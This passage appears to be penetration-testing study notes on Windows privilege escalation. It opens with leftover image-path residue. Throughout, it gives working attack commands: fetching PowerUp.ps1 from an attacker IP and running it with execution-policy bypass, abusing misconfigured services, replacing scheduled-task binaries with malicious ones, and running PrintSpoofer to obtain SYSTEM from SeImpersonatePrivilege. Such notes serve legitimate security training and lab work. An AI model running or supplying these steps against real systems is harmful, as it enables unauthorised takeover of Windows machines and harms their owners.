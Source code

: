 ```bash
```
Transfer it to target by `python3 server`
```powershell
iwr -uri http://192.168.119.3/PowerUp.ps1 -Outfile PowerUp.ps1
powershell -ep bypass
. .\PowerUp.ps1
```
Then
```powershell
Invoke-AllChecks
```
See `Abuse Function`, then abuse(eg.):
```powershell
Invoke-ServiceAbuse -Name 'AbyssWebServer' -UserName 'dcorp\studentx' -Verbose
```
For `Unquoted Service`:
```powershell
Get-UnquotedService
```
**We should never blindly trust or rely on the output of automated tools.**
## Scheduled Task
Display scheduled tasks:
```powershell
Get-ScheduledTask
OR
schtasks /query /fo LIST /v
```
Check `TaskName`,`Next Run Time`,`Task to Run`,`Author`
```powershell
schtasks /query /fo LIST /v | findstr /i 'Author'
```
Then check permission of the binary -> replace the binary with malicious one. -> wait for automatic running.
## Using Exploits
* Application-based vulnerabilities - Locating Public Exploits
* Windows Kernel  - Easily crash a system
* Abuse certain Windows privileges
### Abuse certain Windows privileges
`SeImpersonatePrivilege` - Offers the possibility to leverage a token with another security context.  
Other privilege: `SeBackupPrivilege`, `SeAssignPrimaryToken`, `SeLoadDriver`, and `SeDebug`
### Abuse SeImpersonatePrivilege
**Get this privilege**: Exploiting on `IIS web server` ->   IIS run as `LocalService, LocalSystem, NetworkService, or ApplicationPoolIdentity` which all have `SeImpersonatePrivilege` assigned.

**Principle of Abusing `seImpersonatePrivilege`:**
We find a privileged process -> coerce the process into connecting to a controlled named pipe ->Impersonate the user account connected to the named pipe -> perform operation in its security context.
**Use tool `PrintSpoofer`**: 
```powershell
wget https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe
```
Transfer it to the target.
```powershell
.\PrintSpoofer64.exe -i -c powershell.exe
```
Then we will get access to `authority\system`
## Tools for Windows PE
[Fullpowers](https://github.com/itm4n/FullPowers)
[EnableAllTokenPrivs](https://github.com/fashionproof/EnableAllTokenPrivs "https://github.com/fashionproof/EnableAllTokenPrivs")
[RunasCs](https://github.com/antonioCoco/RunasCs)